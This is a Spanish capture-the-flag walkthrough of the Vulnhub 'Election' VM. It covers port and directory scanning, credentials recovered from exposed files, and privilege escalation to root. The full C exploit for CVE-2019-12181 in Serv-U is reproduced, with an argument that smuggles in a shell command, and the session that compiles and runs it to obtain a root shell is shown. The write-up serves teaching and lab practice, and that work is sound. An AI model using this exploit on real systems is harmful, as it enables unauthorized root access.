 ```yaml
---
title: Election
layout: default
nav_order: 1
parent: Vulnhub
---
```


# Election
{:.no_toc}

---

1. List
{:toc}

---


[Descarga de la máquina](https://www.vulnhub.com/entry/election-1,503/)

Primero configuraremos la máquina para que su conexión sea con adaptador puente dentro de la configuración de VirtualBox. Una vez hecho comprobaremos que tenemos conexión con esta, teniendo en cuenta que nuestra máquina atacante esté también en modo adaptador puente.

## Reconocimiento

Para saber la IP de la máquina podemos realizar un escaneo de la red completa. En este caso utilizaremos arp-scan, que realiza un escaneo mediante el protocolo ARP.

```shell
arp-scan -I ens33 --localnet --ignoredups
```

En mi caso la IP de la máquina víctima es 192.168.1.37 y la atacante 192.168.1.38. Por lo que ahora podemos realizar un escaneo más intensivo de sus puertos, en este caso de los que tiene abiertos.

```shell
nmap -p- -sS --open --min-rate 5000 192.168.1.37 -n -Pn -oG allPorts
```

Vemos que tiene los puertos 22 y 80 abiertos, ahora veremos sus versiones.

```shell
nmap -sCV -p22,80 192.168.1.37 -oN targeted
```

![](/assets/images/Imagenes/Pasted image 20240918113827.png)

Vemos que la página principal es del servicio apache, por lo que deberemos investigar para ver si tiene más directorios que no podamos acceder. 

![](/assets/images/Imagenes/Pasted image 20240918111531.png)

En este caso podemos utilizar gobuster, herramienta que nos permite escanear directorios.

```shell
gobuster dir -u 192.168.1.37 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
```

Tras esto vemos que hay varios directorios y archivos disponibles, entre ellos /election, phpmyadmin, robots.txt y phpinfo.php.

![](/assets/images/Imagenes/Pasted image 20240918112501.png)

Si entramos a el directorio election nos encontraremos con una página de bienvenida, pero sin nada interesante que podamos probar. En esta nueva página podemos probar a realizar otro escaneo de directorios con gobuster.

Con esto vemos que hay varios directorios como admin, data languages, pero siendo lo más interesante un archivo llamado pass.php con binarios.

![](/assets/images/Imagenes/Pasted image 20240918115050.png)

![](/assets/images/Imagenes/Pasted image 20240918114410.png)

Si traducimos esto dos veces a texto ASCII nos dará las credenciales del usuario 1234 y su contraseña.

![](/assets/images/Imagenes/Pasted image 20240918114741.png)

Al parecer estas no sirven para acceder directamente a la máquina. Pero si probamos en el directorio election/admin con el ID 1234 y la contraseña entraremos en el panel de administrador.

![](/assets/images/Imagenes/Pasted image 20240918115140.png)

## Explotación

Si volvemos a hacer un escaneo de directorios dentro de /election/admin vemos que existe el archivo logs.php, con información sobre el usuario love.

![](/assets/images/Imagenes/Pasted image 20240918115739.png)

```
P@$$w0rd@123
```

Esta vez si intentamos entrar a la máquina con esta contraseña será válida.

![](/assets/images/Imagenes/Pasted image 20240918120057.png)

![](/assets/images/Imagenes/Pasted image 20240918120257.png)
## Escalada de privilegios

Una vez dentro podemos ver si pertenecemos a algún grupo específico dentro del sistema, sin embargo esto no es así. Por otra parte, buscando binarios que podamos ejecutar, y obviando algunos como snap, encontramos uno llamativo llamado Serv-U.

```shell
find / -perm -4000 -ls 2>/dev/null | grep -v snap
```

![](/assets/images/Imagenes/Pasted image 20240918120828.png)

Si buscamos vemos que es un servicio de ftp seguro, por lo que podemos indagar si este tiene alguna vulnerabilidad. Y efectivamente vemos que podemos escalar privilegios debido a una [vulnerabilidad](https://www.exploit-db.com/exploits/47009).

```c
/*

CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation 

vulnerability found by:
Guy Levin (@va_start - twitter.com/va_start) https://blog.vastart.dev

to compile and run:
gcc servu-pe-cve-2019-12181.c -o pe && ./pe

*/

#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

Con esto comprobamos que la máquina es capaz de compilar el script viendo si existe el directorio gcc con **which gcc**.

```shell
love@election:/$ which gcc
/usr/bin/gcc
```

Una vez comprobado nos dirigiremos al directorio **tmp** y crearemos un archivo llamado exploit.c con el contenido de el exploit visto. Después lo compilaremos con gcc con el mismo nombre de salida.

```shell
love@election:/$ cd /tmp
love@election:/tmp$ nano exploit.c
love@election:/tmp$ gcc exploit.c -o exploit
love@election:/tmp$ ls
exploit
exploit.c
```

Después le daremos permiso de ejecución con **chmod +x** al archivo exploit y lo ejecutaremos con **./exploit**. Con esto tendremos una shell temporal con permisos root.

```shell
love@election:/tmp$ chmod +x exploit
love@election:/tmp$ ./exploit
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
# whoami
root
```

![](/assets/images/Imagenes/Pasted image 20240918121943.png)